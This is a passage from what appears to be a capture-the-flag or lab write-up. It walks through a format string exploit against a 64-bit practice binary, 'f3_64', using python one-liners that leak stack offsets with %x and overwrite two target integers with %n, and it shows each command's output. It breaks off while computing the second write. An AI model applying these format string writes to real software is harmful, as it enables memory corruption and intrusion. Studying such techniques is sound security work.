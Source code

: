 ```
$  python -c 'print "%6$x" + "%7$x" + "\x5c\x10\x60\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00"' | ./f3_64 
7824362560105c\`The value of target0 is 0
The value of target1 is 0
```

So we can see the address for targt0 is 0x60105c, is being displayed 7 QWORDS away. Since the address for target1 is stored in the QWORD immediately after the QWORD for target0, target1 is most likely stored 8 QWORDS away. Let's see

```
$  python -c 'print "%7$x" + "%8$x" + "\x5c\x10\x60\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00"' | ./f3_64 
60105c601060\`The value of target0 is 0
The value of target1 is 0
```

So we can see that we found the proper offset for both addresses. Just as a final test, let's write to them.

```
$  python -c 'print "%7$n" + "%8$n" + "\x5c\x10\x60\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00"' | ./f3_64 
\`The value of target0 is 0
The value of target1 is 0
```

So we were able to write to the integers. The reason why they were zero is because when they wrote to the integers, nothing was printed (currently the only things being printed are the two addresses which is after the two $n flags). Since the value we need to set target0 equal to is less than the value we need to set for target1, we should write to target0 first. This is because all of the characters that we printed for the 1st write are added to the 2nd write since it writes all characters that were printed. Let's find out how many characters we will need to write to get it equal to 0xace5

```
>>> 0xace5
44261
```

So we will need to write 44261 characters in order to set target0 equal to 0xaces. Of course adding in that will add 7 characters (%44261x). To get everything lined up again we will need to add 1 characters , and change the offset from 7 & 8 to 8 & 9 to account for the fact that both addresses are moved down a QWORD. Let's test it.

```
$  python -c 'print "%44261x%8$n" + "%9$n0" + "\x5c\x10\x60\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00"' | ./f3_64
```

One wall of text later...

```
               6020310\`The value of target0 is ace5
The value of target1 is ace5
```

As you can see, we were able to successfully write the correct value to target0. Now for Target1, currently it is writing the value 0xace5 to it. Let's see what the difference between 0xfacade and 0xace6 is.
